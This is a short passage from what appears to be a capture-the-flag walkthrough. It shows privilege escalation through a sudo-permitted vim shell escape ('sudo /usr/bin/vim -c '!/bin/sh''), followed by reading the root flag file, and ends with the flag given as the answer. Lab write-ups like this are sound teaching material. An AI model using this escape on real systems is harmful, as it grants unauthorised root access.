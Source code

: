 Let's run the exploit.

```
mitch@Machine:~$ sudo /usr/bin/vim -c '!/bin/sh'

#
```

We can now read the root flag.

```
# cat /root/root.txt
Well d0n3. You made it!
```

### Answer

```
Well d0n3. You made it!
```

